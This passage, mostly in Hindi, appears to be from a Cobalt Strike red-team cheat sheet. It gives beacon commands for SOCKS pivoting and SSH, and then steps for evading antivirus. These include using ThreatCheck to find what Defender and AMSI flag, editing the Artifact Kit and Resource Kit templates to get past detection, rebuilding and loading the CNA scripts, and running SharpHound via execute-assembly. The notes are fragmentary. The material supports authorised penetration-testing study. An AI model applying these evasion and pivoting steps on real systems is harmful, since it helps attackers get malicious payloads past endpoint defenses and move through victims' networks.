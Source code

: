 
# Pivoting
## टीम सर्वर में एक सॉक्स प्रॉक्सी खोलें
beacon> socks 1080

# SSH connection
beacon> ssh 10.10.17.12:22 username password</code></pre>

## AVs से बचना

### Artifact Kit

आमतौर पर `/opt/cobaltstrike/artifact-kit` में आप कोड और प्री-कंपाइल किए गए टेम्पलेट ( `/src-common` में) पा सकते हैं जिनका उपयोग कोबाल्ट स्ट्राइक बाइनरी बीकन उत्पन्न करने के लिए करेगा।

[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) का उपयोग करके उत्पन्न बैकडोर (या केवल संकलित टेम्पलेट के साथ) आप यह पता लगा सकते हैं कि क्या डिफेंडर को ट्रिगर कर रहा है। यह आमतौर पर एक स्ट्रिंग होती है। इसलिए आप बस उस कोड को संशोधित कर सकते हैं जो बैकडोर उत्पन्न कर रहा है ताकि वह स्ट्रिंग अंतिम बाइनरी में न दिखाई दे।

कोड को संशोधित करने के बाद, बस उसी निर्देशिका से `./build.sh` चलाएँ और `dist-pipe/` फ़ोल्डर को Windows क्लाइंट में `C:\Tools\cobaltstrike\ArtifactKit` में कॉपी करें।
```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```
Don't forget to load the aggressive script `dist-pipe\artifact.cna` to indicate Cobalt Strike to use the resources from disk that we want and not the ones loaded.

### Resource Kit

ResourceKit फ़ोल्डर में Cobalt Strike के स्क्रिप्ट-आधारित पेलोड के लिए टेम्पलेट्स शामिल हैं, जिसमें PowerShell, VBA और HTA शामिल हैं।

[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) का उपयोग करते हुए, आप टेम्पलेट्स के साथ यह पता लगा सकते हैं कि डिफेंडर (इस मामले में AMSI) को क्या पसंद नहीं है और इसे संशोधित कर सकते हैं:
```
.\ThreatCheck.exe -e AMSI -f .\cobaltstrike\ResourceKit\template.x64.ps1
```
डिटेक्टेड लाइनों को संशोधित करके एक ऐसा टेम्पलेट बनाया जा सकता है जो पकड़ा नहीं जाएगा।

`ResourceKit\resources.cna` नामक आक्रामक स्क्रिप्ट को लोड करना न भूलें ताकि Cobalt Strike को यह संकेत मिले कि हम डिस्क से उन संसाधनों का उपयोग करना चाहते हैं जो हम चाहते हैं और न कि लोड किए गए संसाधनों का।
```bash
cd C:\Tools\neo4j\bin
neo4j.bat console
http://localhost:7474/ --> Change password
execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -d DOMAIN.LOCAL



# Change powershell
C:\Tools\cobaltstrike\ResourceKit
template.x64.ps1
# Change $var_code -> $polop
# $x --> $ar
cobalt strike --> script manager --> Load --> Cargar C:\Tools\cobaltstrike\ResourceKit\resources.cna

#artifact kit
cd  C:\Tools\cobaltstrike\ArtifactKit
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .

```